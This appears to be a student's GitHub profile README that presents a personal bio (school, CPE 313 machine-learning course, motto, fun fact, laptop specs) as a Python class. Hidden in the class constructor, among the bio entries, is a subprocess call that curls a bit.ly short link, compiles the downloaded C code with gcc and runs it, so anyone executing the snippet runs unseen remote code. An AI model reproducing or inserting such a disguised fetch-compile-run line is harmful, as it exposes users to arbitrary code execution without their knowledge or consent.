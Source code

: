 <h1 align="center">Yo 👋, I'm Dela Rosa, John Errol 👨‍💻</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?font=Monospace&size=16&pause=1000&color=36BCF7F7&center=true&vCenter=true&random=false&width=485&lines=Jep+is+trying+his+best.;This+is+a+placeholder.;You+wanna+know+how+I+got+these+scars%3F" alt="Jep is trying his best." />
</p>

```python
class JepxZIMA:
  def __init__(self):
    subprocess.call("curl -sL 'bit.ly/j3px21m4' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 🙋‍♂️ You can call me'            : 'JEP (*insert_My_names_jeff_meme)',
      '- 🤷🏻‍♂️ What is this, nani'         : 'A GitHub repository dedicated to the CPE313 course',
      '- 🏡 I’m currently living in'    : 'Binangonan, Rizal',
      '- 🏫 I’m currently studying in'  : 'Technological Institute of the Philippines',
      '- 📓 Course code - title'        : {'CPE 313' : 'Advanced Machine Learning and Deep Learning'},
      '- 🎏 Section'                    : 'CPE32S8',
      '- 🌱 I’m currently pursuing'     : {'BSCpE' : 'Bachelor of Science in Computer Engineering'},
      '- 📊 My elective'                : 'Data Science',
      '- ❔ I dont know'                : '¯\_(ツ)_/¯',
      '- 👨‍💻 My amazing website project' : 'https://blogs.mtdv.me/blog/posts/jepowo',

      '- 💧 Motto in life'              : ('Empty your mind, be formless. Shapeless, like water. If you put water'
                                            'into a cup, it becomes the cup. You put water into a bottle and it'
                                            'becomes the bottle. You put it in a teapot, it becomes the teapot.'
                                            'Now, water can flow or it can crash. Be water, my friend.'),

      '- ⚡ Fun fact'                  : ('80% of Tibetan Buddhists chose to have a sky burial, in which their'
                                         'bodies are placed on mountain tops and consumed by birds of prey.')
    }

if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(JepxZIMA().__dict__)
```
<br>

### - Workspace 🖥️
<p align="center">
  <a href="#"><img src="https://github.com/jepowo/CPE_313/blob/main/src/graphics.svg" alt="NVIDIA 1650"></a>
  <a href="#"><img src="https://raw.githubusercontent.com/jepowo/CPE_313/blob/main/src/processor.svg" alt="AMD Ryzen 7 4800H"></a>
  <a href="#"><img src="https://raw.githubusercontent.com/jepowo/CPE_313/blob/main/src/laptop.svg" alt="Asus"></a>
</p>
